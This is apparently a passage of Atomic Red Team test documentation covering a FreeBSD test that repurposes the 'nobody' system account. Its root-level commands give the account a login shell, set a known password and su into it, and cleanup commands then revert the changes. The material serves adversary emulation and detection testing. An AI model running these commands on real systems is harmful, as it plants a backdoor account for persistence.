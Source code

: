 #### Cleanup Commands:
```bash
chsh --shell /usr/sbin/nologin nobody
cat /etc/passwd |grep nobody 
# -> nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```





<br/>
<br/>

## Atomic Test #13 - Login as nobody (freebsd)
An adversary may try to re-purpose a system account to appear legitimate. In this test change the login shell of the nobody account, change its password to nobody, su to nobody, exit, then reset nobody's shell to /usr/sbin/nologin.

**Supported Platforms:** Freebsd


**auto_generated_guid:** 16f6374f-7600-459a-9b16-6a88fd96d310






#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
cat /etc/passwd |grep nobody 
# -> nobody:x:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
pw usermod nobody -s /bin/sh
echo $(openssl passwd -1 art) | pw mod user nobody -h 0
su nobody
whoami
exit
```

#### Cleanup Commands:
```sh
pw usermod nobody -s /usr/sbin/nologin
cat /etc/passwd |grep nobody
# -> nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
```





<br/>
